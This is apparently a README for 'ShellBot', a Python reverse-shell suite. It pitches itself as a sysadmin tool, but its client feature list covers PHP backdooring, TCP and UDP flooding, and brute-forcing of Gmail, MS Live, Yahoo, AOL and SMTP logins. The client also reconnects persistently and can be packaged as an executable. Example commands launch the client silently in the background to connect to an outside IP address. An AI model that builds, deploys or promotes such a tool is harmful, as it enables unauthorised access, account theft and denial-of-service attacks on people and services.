 # ShellBot

##### The most advanced remote shell written in Python3 is here.

###### Based on `dotcppfile`'s [Awrs](http://dotcppfile.wordpress.com/2014/11/03/awrs-advanced-clientserver-windowslinux-python-reverse-shell/).

---

ShellBot is a cross-platform Remote Shell Suite where the Server can be managed by 1 Controller at a time.

A server can accept several clients at once, and relay a chosen client's shell to the controller.

This makes it easy for an SysAdmin to manage several computers with minimal setup in an internal network.

The ShellBot suite is designed in such a way that it will not stop till a connection is achieved. All errors are handled internally and in case of a crash, the program automatically restarts.

---

#### Features:

##### Server:
1. Can handle multiple connections all at once.
1. The Controller’s connection requires a plain text password, it’s not the best security, but at-least it is better than nothing. Will be improved on in future revisions.
1. Kicks the Controller after 5 mins. This was added just in case someone forgot his Controller on which won’t allow other controllers to connect (since the Server only accepts 1 controller at a time). TODO: Make it 5 minutes after inactivity.

##### Client:
1. Infected PHP Backdooring Function.
1. TCP Flood.
1. UDP Flood.
1. Gmail Bruteforcer. (Workaround GMail's SMTP login)
1. MS Live Bruteforcer.
1. Yahoo Bruteforcer.
1. AOL Bruteforce.
1. Custome SMTP Bruteforcer.
(if found, the password will be saved in "password.txt" client-side)
1. OTA Updating.
1. Indestructible Shell: Handles No Output, Wrong, Interactive and Infinite commands will result in losing the shell.
1. Can handle multiple commands separated by semi-colon (;).
1. Never closes and is always trying to connect to the Server.
1. Can handle almost any non-interactive command properly.
1. Uses very less resources.
1. Can be packaged into executables with tools like pyInstaller. 

##### Controller:
1. Handles `KeyboardInterrupts`, empty commands, etc. perfectly.
1. Easy user interface.

**Note:** When trying to start the client through SSH, Terminal or any other interactive shell, it is advised to start the client in another process. This can be done in Linux with `nohup`.

###### Example:

```sh
nohup python3 client.py 15.48.158.15 1567 > /dev/null &

nohup python3 client.py 15.48.158.15 1567 > /dev/null 2>&1 &
```